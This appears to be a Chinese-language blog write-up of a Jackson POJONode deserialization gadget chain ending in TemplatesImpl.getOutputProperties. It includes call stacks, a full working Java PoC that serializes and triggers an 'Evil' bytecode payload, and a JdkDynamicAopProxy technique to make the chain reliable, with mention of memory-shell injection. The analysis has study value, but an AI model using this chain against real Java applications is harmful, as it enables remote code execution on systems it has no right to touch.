环境
jackson版本太老的话，POJONode中代码会不对
<dependency>
<groupId>com.fasterxml.jackson.core</groupId>
<artifactId>jackson-databind</artifactId>
<version>2.15.0</version>
</dependency>
<dependency>
<groupId>com.fasterxml.jackson.core</groupId>
<artifactId>jackson-core</artifactId>
<version>2.15.0</version>
</dependency>
<dependency>
<groupId>com.fasterxml.jackson.core</groupId>
<artifactId>jackson-annotations</artifactId>
<version>2.15.0</version>
</dependency>
<dependency>
<groupId>javassist</groupId>
<artifactId>javassist</artifactId>
<version>3.12.1.GA</version>
</dependency>
0x01 writeValueAsString
这里我们jackson 原生链，利用点跟writeValueAsString()有关，他用来将java对象序列化成json字符串，序列化的时候会调用java对象的getter方法，所以我们这里看下序列化的时候是怎么调用getter方法的
_accessorMethod = (Method) member.getMember();
设置getter方法，调用栈
<init>:234, BeanPropertyWriter (com.fasterxml.jackson.databind.ser)
buildWriter:229, PropertyBuilder (com.fasterxml.jackson.databind.ser)
_constructWriter:791, BeanSerializerFactory (com.fasterxml.jackson.databind.ser)
findBeanProperties:583, BeanSerializerFactory (com.fasterxml.jackson.databind.ser)
constructBeanSerializer:368, BeanSerializerFactory (com.fasterxml.jackson.databind.ser)
findBeanSerializer:279, BeanSerializerFactory (com.fasterxml.jackson.databind.ser)
_createSerializer2:231, BeanSerializerFactory (com.fasterxml.jackson.databind.ser)
createSerializer:165, BeanSerializerFactory (com.fasterxml.jackson.databind.ser)
_createUntypedSerializer:1385, SerializerProvider (com.fasterxml.jackson.databind)
_createAndCacheUntypedSerializer:1336, SerializerProvider (com.fasterxml.jackson.databind)
findValueSerializer:510, SerializerProvider (com.fasterxml.jackson.databind)
findTypedValueSerializer:713, SerializerProvider (com.fasterxml.jackson.databind)
serializeValue:308, DefaultSerializerProvider (com.fasterxml.jackson.databind.ser)
_configAndWriteValue:3893, ObjectMapper (com.fasterxml.jackson.databind)
writeValueAsString:3207, ObjectMapper (com.fasterxml.jackson.databind)
main:16, JSTest (jackson)
final Object value = (_accessorMethod == null) ? _field.get(bean)
: _accessorMethod.invoke(bean, (Object[]) null);
getter方法反射调用，只调用无参方法
getJack:31, Person2 (jackson)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
serializeAsField:687, BeanPropertyWriter (com.fasterxml.jackson.databind.ser)
serializeFields:719, BeanSerializerBase (com.fasterxml.jackson.databind.ser.std)
serialize:155, BeanSerializer (com.fasterxml.jackson.databind.ser)
_serialize:480, DefaultSerializerProvider (com.fasterxml.jackson.databind.ser)
serializeValue:319, DefaultSerializerProvider (com.fasterxml.jackson.databind.ser)
_configAndWriteValue:3893, ObjectMapper (com.fasterxml.jackson.databind)
writeValueAsString:3207, ObjectMapper (com.fasterxml.jackson.databind)
main:16, JSTest (jackson)
对比下调用栈，大概流程就是
writeValueAsString()一直到=>DefaultSerializerProvider#serializeValue
-
这里
findTypedValueSerializer()会先对Filed和Method（包含setter和getter），进行初始化 -
在
_serialize()反射调用这些Filed和Method（测试发现，有属性的getter方法和没有属性的getter方法都会被调用）

调用的时候，在BeanSerializerBase#serializeFields会通过for需要根据前面初始化的prop调用serializeAsField，注意，这里jack也有自己prop尽管他没有属性，但是他有getter，前面赋值优先赋值给Method，所以他也有自己prop，最后调用getJack()

作为Gadgets的一环，我们知道他的作用就是调用任意类getter方法嘛，无疑Gadgets后半段就是TemplatesImpl.getOutputProperties()
0x02 POJONode
POJONode的toString可以调用writeValueAsString()，且对象可控，我们怎么调用toString呢，这里不难想到利用CC5的BadAttributeValueExpException，那么Gadgets就完整啦

InternalNodeMapper#nodeToString

0x03 Gadgets
BadAttributeValueExpException.readObject
POJONode.toString
InternalNodeMapper#nodeToString
writeValueAsString()
TemplatesImpl.getOutputProperties()
问题1 writeReplace()
我们满心欢喜构造好poc后，发现序列化的时就退出程序了，常规反序列化这个地方会调用writeReplace()

writeReplace()这里和toString()可以起到一样的效果，后面会调用到writeValueAsBytes(),后续会提前调用getter方法，然后报错中断


解决：
自构一个BaseJsonNode将writeReplace()删除 //这里应该是跟Classload加载的问题有关，后面留个坑
构造个一样路径的，然后就可以打成功啦

package jackson;
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;
import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
public class jackson {
public static void main(String[] args) throws Exception {
ClassPool pool = ClassPool.getDefault();
CtClass clazz = pool.get(Evil.class.getName());
byte[] code = clazz.toBytecode();
System.out.println(Base64.getEncoder().encodeToString(code));
TemplatesImpl templates=new TemplatesImpl();
setFiled(templates,"_name","111");
setFiled(templates,"_bytecodes",new byte[][]{code});
setFiled(templates,"_tfactory",new TransformerFactoryImpl());
POJONode jsonNodes = new POJONode(templates);
BadAttributeValueExpException badAttributeValueExpException=new BadAttributeValueExpException(111);
setFiled(badAttributeValueExpException,"val",jsonNodes);
FileOutputStream fos = new FileOutputStream("bin");
ObjectOutputStream oos = new ObjectOutputStream(fos);
oos.writeObject(badAttributeValueExpException);
oos.close();
// 从文件中反序列化对象
FileInputStream fis = new FileInputStream("bin");
ObjectInputStream ois = new ObjectInputStream(fis);
ois.readObject();
ois.close();
}
public static void setFiled(Object templates, String name, Object values) throws IllegalAccessException, NoSuchFieldException {
Field declaredField = templates.getClass().getDeclaredField(name);
declaredField.setAccessible(true);
declaredField.set(templates,values);
}
}
网上说这个不稳定，本地试了10次都没问题，就先不看
存档1 BaseJsonNode
为什么本地重写BaseJsonNode可以解决问题1
0x04 不稳定
之前说一直没遇到hhh，后面打内存马的时候出现了好几次这个问题，所以来补下这个坑。因为这个是概率触发，所以不太好截图
产生的原因呢是在jackson自己的序列化中，看到serializeFields()
这里是for循环，props是之前赋值的，然后根据filed的名字调用去获取对应的值，这里后面就是调用对应的getter或者反射获取filed值了，问题就出在这个props值的顺序上，如果第一个值是outputProperties，最先调用的就是getOutputProperties()自然就可以调用成功。
但是如果是其他值就会有问题，这里值分别是stylesheetDOM，transletIndex

这两个值对应两个getter方法getStylesheetDOM(),getTransletIndex()
public DOM getStylesheetDOM() {
return (DOM)_sdom.get();
}
public synchronized int getTransletIndex() {
try {
if (_class == null) defineTransletClasses();
}
catch (TransformerConfigurationException e) {
// Falls through
}
return _transletIndex;
}
如果先getTransletIndex()再getOutputProperties()也没事，getTransletIndex()只是帮忙加载了字节码，不会照成影响。
有问题只有一种场景，
getStylesheetDOM在getOutputProperties前面调用这个时候会在恶意类实例化前调用
getStylesheetDOM()，而_sdom是null，会报空指针的错误
那很简单呀我们给他赋予一个值不就行了，其实不能wwwww
我们看到TemplatesImpl其实会给这个赋予一个ThreadLocal实例，那为什么是null呢
private transient ThreadLocal _sdom = new ThreadLocal();
这里是反序列化嘛，问题可能就出在这里
可以看到TemplatesImpl这里是不会序列化_sdom这个值的，同时反序列化的地方也不会赋值这个filed，所以他是null

解决
但是我们不难想到getOutputProperties是继承的Templates接口，他只有这一个getter呀，能不能换成他呢（这里试过类型转换，没用）
解决办法是用到
动态代理，然后代理Templates接口，使得props只有getOutputProperties这个方法，Proxy调用getOutputProperties(),触发代理调用invoke方法，如果这个代理类invoke方法可以设置我们的TemplatesImpl对象来调用getOutputProperties()问题就解决了
这里需要补充点东西，我们知道序列化会调用getter，之前分析流程可能不够细
jackson的初始化，最初会在AnnotatedMethodCollector.java#_addMemberMethods，找到类所有方法并put

这里是获取代理的方法，最终其实是通过反射
getDeclaredMethods()获取的，但是其获取方法得到的顺序每次可能存在一些偏差，这也是jackson链子不稳定的原因
public static Method[] getClassMethods(Class<?> cls)
{
try {
return cls.getDeclaredMethods();
}

一共是5个方法，分别是hashcode,equals,toString,getOutputProperties,newTransformer
这里我们用java的反射
getDeclaredMethods方法去获取代理类所有方法时也是根据我们提供的接口（这里是Templates.class）去获取的方法。，所以只有上面5个方法，其他3个方法自带的都会有，然后getter就只有getOutputProperties
Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);
然后将获取的方法返回，这里会尝试添加到props里，只有getOutputProperties添加了


然后后面其他的赋值就只有getOutputProperties这一个getter方法了
0x05 JdkDynamicAopProxy
org.springframework.aop.framework.JdkDynamicAopProxy需要aop依赖
这个类有啥用呢，通过前面的处理可以只调用getOutputProperties()，调用后触发代理类invoke()方法，其中在invokeJoinpointUsingReflection()处会反射调用对应的方法（getOutputProperties）


我这里缩减下代码，我们需要控制这里target，target来自targetSource，targetSource有来初始化设置的this.advised
TargetSource targetSource = this.advised.targetSource;
target = targetSource.getTarget();

这里我们将TemplatesImpl进行AdvisedSupport封装放入对应的值，反射时就能调用到我们放入的TemplatesImpl对象
Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
cons.setAccessible(true);
AdvisedSupport advisedSupport = new AdvisedSupport();
advisedSupport.setTarget(templates);
InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);
